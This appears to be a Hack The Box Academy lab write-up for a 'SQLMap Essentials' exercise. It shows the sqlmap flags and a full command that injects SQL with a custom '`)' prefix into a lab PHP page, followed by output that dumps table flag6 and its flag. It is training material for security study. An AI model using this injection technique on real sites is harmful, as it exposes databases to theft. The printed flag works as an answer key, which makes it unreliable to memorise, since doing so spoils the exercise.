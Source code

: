 **Question**

What's the contents of table `flag6`? (Case #6)

Hint: Use the prefix ``)`.

![Firefox - Case6 Non-standard Boundaries](./assets/screenshots/sqlmap_essentials_firefox_case6_non_standard_boundaries.png)

```javascript
--batch -T flag6 --dump --no-cast --prefix='`)'
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case6.php?col=id' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case6.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -T flag6 --dump --no-cast --prefix='`)'

[SNIP]

[09:14:45] [INFO] fetching current database
[09:14:45] [INFO] fetching columns for table 'flag6' in database 'testdb'
[09:14:45] [INFO] fetching entries for table 'flag6' in database 'testdb'
Database: testdb
Table: flag6
[1 entry]
+----+----------------------------------+
| id | content                          |
+----+----------------------------------+
| 1  | HTB{v1nc3_mcm4h0n_15_4570n15h3d} |
+----+----------------------------------+

[SNIP]
```
